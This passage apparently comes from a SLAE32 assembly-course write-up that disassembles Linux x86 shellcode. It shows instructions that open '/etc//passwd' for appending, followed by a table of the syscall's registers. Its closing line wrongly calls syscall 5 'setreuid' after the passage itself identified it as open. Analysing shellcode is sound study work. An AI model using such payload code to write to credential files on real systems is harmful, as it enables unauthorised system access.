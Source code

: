 ####  <span style="color:#01416C;">  2 - Open </span> 

    00000009  6A05              push byte +0x5
    0000000B  58                pop eax
    0000000C  31C9              xor ecx,ecx
    0000000E  51                push ecx
    0000000F  6873737764        push dword 0x64777373 // dwss
    00000014  682F2F7061        push dword 0x61702f2f // ap//
    00000019  682F657463        push dword 0x6374652f // cte/
    0000001E  89E3              mov ebx,esp
    00000020  41                inc ecx
    00000021  B504              mov ch,0x4
    00000023  CD80              int 0x80

<img src="/assets/slae32-img/assignment5/assignment5.9.PNG" alt="drawing" style="width:900px"/>


The registers passed to that syscall are:
- EAX = 0x5 (Open syscall)
- EBX = /etc//passwd
- ECX = 0x401
- EDX = 0
- ESI = 0
- EDI = 0

So when look at the syscall number 5 we get the setreuid call :
